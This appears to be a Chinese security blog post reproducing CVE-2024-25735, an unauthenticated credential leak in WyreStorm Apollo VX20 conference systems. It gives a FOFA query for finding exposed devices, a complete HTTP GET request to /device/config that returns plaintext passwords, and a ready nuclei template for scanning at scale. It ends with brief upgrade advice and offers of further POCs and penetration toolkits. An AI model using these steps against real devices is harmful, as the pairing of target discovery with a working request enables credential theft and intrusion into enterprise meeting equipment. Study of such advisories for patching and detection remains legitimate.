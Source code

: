 #  CVE-2024-25735漏洞复现（附POC）   
原创 fgz  AI与网安   2024-03-06 07:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WyreStorm Apollo VX20 信息泄露漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WyreStorm Apollo VX20 < 1.3.58  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOygzIx5uyArl1jurb5mO7fhe1kNzUuFo918cG8u45NU2ibM3TzibJUdmXD0RjVg3zJgrKLCibVSLP0w/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="-893957814"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOygzIx5uyArl1jurb5mO7fEGnvV9CQaa2HF3NlXps0Mc3tS59cYicfrQX2aJ3V8nbbufpaQ9mCMSg/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
该漏洞是get请求，可以直接使用浏览器访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOygzIx5uyArl1jurb5mO7fQPqr4L2rcbpThl9dFCTytjh3rw5ObLIiajTd1A8rKMLlglU3o4RmwDg/640?wx_fmt=png&from=appmsg "")  
  
完整POC数据包如下  
```
GET /device/config HTTP/1.1
Host: 192.168.40.130:115
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BOygzIx5uyArl1jurb5mO7fOX2goGFXpGycP6QrfssjDWoMZeouOzsbuDoAs1onTPA3XnibFyrpWuQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-25735

info:
  name: WyreStorm Apollo VX20 信息泄露漏洞
  author: fgz
  severity: high
  description: |
    WyreStorm Apollo VX20是一款优质的音视频会议一体机，专为企业办公室和会议室空间设计。这款设备集成了摄像头、麦克风、扬声器及投屏功能，为企业办公和视频会议提供优质的视听体验。该系统存在信息泄露漏洞，未经授权的远程攻击者可以获取明文凭据。
  metadata:
    verified: true
    max-request: 1
    vendor: WyreStorm
    product: WyreStorm Apollo VX20
    fofa-query: icon_hash="-893957814"
  tags: cve,cve2024,aiohttp

http:
  - method: GET
    path:
      - "{{BaseURL}}/device/config"

    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body,'password') && contains(body,'softAp')"

```  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  

